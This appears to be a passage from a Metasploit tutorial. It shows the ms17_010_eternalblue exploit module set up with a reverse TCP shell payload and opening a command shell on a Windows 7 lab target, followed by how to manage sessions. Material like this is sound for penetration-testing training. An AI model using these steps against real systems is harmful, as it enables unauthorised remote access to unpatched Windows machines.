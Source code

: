 ```console
   8   payload/windows/x64/custom/bind_tcp_rc4                              normal  No     Windows shellcode stage, Bind TCP Stager (RC4 Stage Encryption, Metasm)
   9   payload/windows/x64/custom/bind_tcp_uuid                             normal  No     Windows shellcode stage, Bind TCP Stager with UUID Support (Windows x64)
   10  payload/windows/x64/custom/reverse_http                              normal  No     Windows shellcode stage, Windows x64 Reverse HTTP Stager (wininet)

...

```
Once we have decided on the payload, the `set payload` command can be used to use the payload.

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
payload => generic/shell_reverse_tcp
```
Note that choosing a working payload could become a trial and error process due to environmental or OS restrictions such as firewall rules, anti-virus, file writing, or the program performing the payload execution isn't available (ie: payload/python/shell_reverse_tcp).

Once a session has been opened, we can background it using `CTRL+Z` or abort it using `CTRL+C`. Backgrounding a session will be useful when working with more than one target or on the same target with a different exploit and/or shell.

```console
[*] Command shell session 1 opened (10.13.17.49:4444 -> 10.10.6.163:49174) at 2023-03-03 17:17:57 -0700


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
### Working with Sessions
The `sessions` command will list all active sessions. The `sessions` command supports a number of options which can be displayed using the `-h` parameter.

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -c, --command <command>              Run a command on the session given with -i, or all
    -C, --meterpreter-command <command>  Run a Meterpreter Command on the session given with -i, or all
    -d, --list-inactive                  List all inactive sessions
    -h, --help                           Help banner
    -i, --interact <id>                  Interact with the supplied session ID
    -k, --kill <id>                      Terminate sessions by session ID and/or range
    -K, --kill-all                       Terminate all sessions
    -l, --list                           List all active sessions
    -n, --name <id> <name>               Name or rename a session by ID
    -q, --quiet                          Quiet mode
    -s, --script <script>                Run a script or module on the session given with -i, or all
    -S, --search <filter>                Row search filter.
    -t, --timeout <seconds>              Set a response timeout (default: 15)
```